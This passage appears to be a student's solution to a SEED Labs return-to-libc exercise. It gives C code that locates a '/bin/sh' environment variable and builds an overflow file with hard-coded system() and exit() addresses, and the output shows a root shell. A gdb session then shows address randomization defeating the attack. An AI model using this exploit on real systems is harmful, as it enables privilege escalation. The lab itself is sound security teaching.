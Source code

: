 ```
    ptr = getenv(argv[1]);
    ptr += (strlen(argv[0]) - strlen(argv[2])) * 2;
    printf("%s will be at %p\n", argv[1], ptr);
    return 0;
}
```
```
seed@ubuntu:~$ export MYSHELL=/bin/sh
seed@ubuntu:~$ gcc -o getenv getenv.c 
seed@ubuntu:~$ ./getenv MYSHELL ./retlib
MYSHELL will be at 0xbffffe8a
```
We fill these address into exploit.c.
```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
    char buf[40];
    FILE *badfile;

    badfile = fopen("./badfile", "w");
    strcpy(buf,"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90");    // nop 24 times
    *(long *) &buf[32] = 0xbffffe8a ;    // "/bin/sh"
    *(long *) &buf[24] = 0xb7e5f430 ;    // system()
    *(long *) &buf[36] = 0xb7e52fb0 ;    // exit()

    fwrite(buf, sizeof(buf), 1, badfile);
    fclose(badfile);
}
```
Now we exploit it:
```
seed@ubuntu:~$ ./exploit
seed@ubuntu:~$ ./retlib
# whoami
root
```

### Task 2: Address Randomization
In this task, let us turn on the Ubuntu's address randomization protection. We run the same attack developed in Task 1. Can you get a shell? If not, what is the problem? How does the address randomization make your return-to-libc attack difficult?
```
sudo /sbin/sysctl -w kernel.randomize_va_space=2
```

Solution:
Address randomization makes these addresses different every times.
```
(gdb) p system
$3 = {<text variable, no debug info>} 0xb7600430 <system>
(gdb) p exit
$4 = {<text variable, no debug info>} 0xb75f3fb0 <exit>
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/seed/retlib 
Breakpoint 1, 0x080484b6 in main ()
(gdb) p system
$5 = {<text variable, no debug info>} 0xb7593430 <system>
(gdb) p exit
$6 = {<text variable, no debug info>} 0xb7586fb0 <exit>
```
